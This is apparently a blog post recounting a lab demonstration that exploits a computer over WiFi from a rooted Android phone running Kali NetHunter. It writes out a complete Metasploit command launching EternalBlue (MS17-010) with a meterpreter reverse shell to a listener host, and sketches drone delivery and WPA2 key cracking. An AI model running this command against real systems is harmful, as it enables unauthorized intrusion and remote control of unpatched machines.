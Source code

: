 ```yaml
---
title: Hacking a Computer Remotely through a Phone
date: 2021-05-01
categories: [research, offsec]
tags: [research, offsec, kali]
---
```

In a recent demonstration of cyber and electronic warfare capabilities, I had the opportunity to enable access into a network by exploiting a computer remotely through a cell phone. In this blog post, I’ll document some of the challenges that were encountered and how they were overcome.
# Scenario
The scenario for this demonstration was: an offensive cyber operations team wants to gain access into a targeted computer network which includes a wireless access point. The targeted network is firewalled and NAT’d, and social engineering techniques such as spear phishing have been unsuccessful. In order to gain access into the network, a human source is used to approach the facility that houses the network (think a residential building) and gains close enough proximity to sense the radio frequency (RF) emissions from the facility.

In this scenario, the human source cannot get a laptop into range of the WiFi emissions, but something smaller like a phone can be brought close enough. A partner organization (undisclosed due to NDA) provides an application for rooted Android devices that can control the radios on that Android device for sampling the RF spectrum. The human source does not necessarily know how to hack and may not be able to do so surreptitiously, but that tool also enables terminal access to the cell phone. From that starting point, we made a concept of operations that is illustrated in the following picture, where a remote operator would connect to the terminal of the phone, then launch an attack over the wireless network to the targeted computer.
 ![](DraggedImage.tiff)
Taking a crawl, walk, run approach, this scenario had a pre-identified target connected to an unsecured wireless network. This was also a closed LAN, so the cloud in the above picture really represents a network created through five Linksys WRT54G routers, with one acting as a core router and the other four as boundary routers for different “cities”.
# Kali Nethunter
The first thing I wanted to figure out was how to launch an exploit from a cell phone. The [Kali NetHunter](https://www.kali.org/kali-nethunter/) project allows you to install Kali onto a cell phone, including the Metasploit framework. I had a rooted Android phone at my disposal which had [Magisk](https://magisk.me) installed. Conveniently, Magisk has a module for NetHunter, so I downloaded the module and rebooted the device.

NetHunter uses a [chroot](https://man7.org/linux/man-pages/man2/chroot.2.html) to provide a filesystem to the utilities from the distribution.  You have the option of downloading the chroot from within NetHunter or downloading one manually and moving it to `/sdcard`. I manually downloaded the full chroot, moved it to `/sdcard` and then selected it with the Kali Chroot Manager. Next, I had to install a terminal emulator. I tried the Terminal Emulator for Android app, but Kali would not recognize it. The solution that worked for me was to download the [NetHunter Store](https://store.nethunter.com) and then install NetHunter Terminal from it.
## Accessing Kali Utilities Outside of NetHunter Terminal
The second thing I wanted to do was figure out how to access Kali utilities without launching the NetHunter Terminal. The remote terminal access to the phone did not have full interactive capabilities but provided the ability to launch arbitrary shell commands. Looking into the Kali NetHunter scripts, I found the chroot contents got extracted to `/data/local/nhsystem/kali-armhf`. The `chroot` help page says that I can execute commands as `chroot /path/to/chroot cmd args`. Combining that knowledge, I ran a test command which simply echo’d from the chroot.
Next was to craft a single command to execute a Metasploit command. The `msfconsole -x` command lets you “execute the specified string as a console command”. You can chain those strings together with semi-colons. For example, to craft a whole exploit you might use it as `msfconsole -x "use exploit; set target; set payload; exploit"`.
## SIGHUP
With a proof of concept for launching a Metasploit command from a remote session on the phone, we started doing mission rehearsal. During this time, I realized that I wouldn’t be able to launch the command once the phone had been joined to the Wifi network. The app that we were using to control the radios and to provide remote access did not have the ability to direct certain traffic (our C2 channel) through the cellular radio and other traffic (Metasploit) through the Wifi radio. “No problem”, we thought, just put a delay on command execution, as in `sleep 30; msfconsole -s`. Unfortunately, when the network changed from cell to Wifi, our TCP connection to the phone was severed, generating a [SIGHUP](https://en.wikipedia.org/wiki/SIGHUP) which resulted in the whole process tree being killed.
Thankfully, it is easy to prevent a process from dying when it receives the SIGHUP by using the `nohup` command and that command was present on the Android phone. The full command became:
  nohup /bin/sh -c "sleep 30; chroot /data/local/nhsystem/kali-armhf msfconsole -x \"use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.10.4; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.10; set lport 4444; exploit\"" &
I kicked the command off, our close access operator connected the phone to the Wifi network, and soon we had a shell from the target back to a C2 node attached to the “core” Linksys router. In another test, we strapped the phone to a DJI drone and added the `nmcli dev wifi connect network-ssid` command to the previous command to switch networks.
# Future Tests
As noted earlier, this event was part of a series following the crawl, walk, run methodology. As the crawl step, this event used an open Wifi network and a simple off the shelf exploit. For future events, we’d be looking at performing a packet capture using the capabilities of the partner’s Android application or by adding [Aircrack-ng](http://aircrack-ng.org) to the phone. After obtaining a packet capture from the Wifi radio, the results would get exfiltrated back to the operations center, where the WPA2 pre-shared key could be cracked, and used to join the phone to the network. We could also do more work with specialized antennas to allow the drone to be at a greater stand off distance, reducing its observability and increasing its survivability.
